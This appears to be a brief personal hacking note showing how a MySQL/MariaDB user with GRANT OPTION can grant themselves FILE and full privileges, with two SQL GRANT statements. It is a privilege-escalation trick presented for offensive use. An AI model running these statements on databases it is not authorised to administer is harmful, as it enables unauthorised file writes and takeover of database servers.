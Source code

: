 # mysql mariadb exploit GRANT OPTION to grant file write permissions to self
must have `GRANT OPTION` permission
```SQL
GRANT FILE ON *.* TO 'uname'@'localhost' with grant option;
grant all privileges on dbname.* to 'yourusername'@'%' with grant option;
```

# Related

- [20221003151236](/zet/20221003151236/README.md) mysql mariadb
- ~/kb/hacking/tricks/mysql-tricks.md

Tags:

    #assorted #hacking #trick #mysql
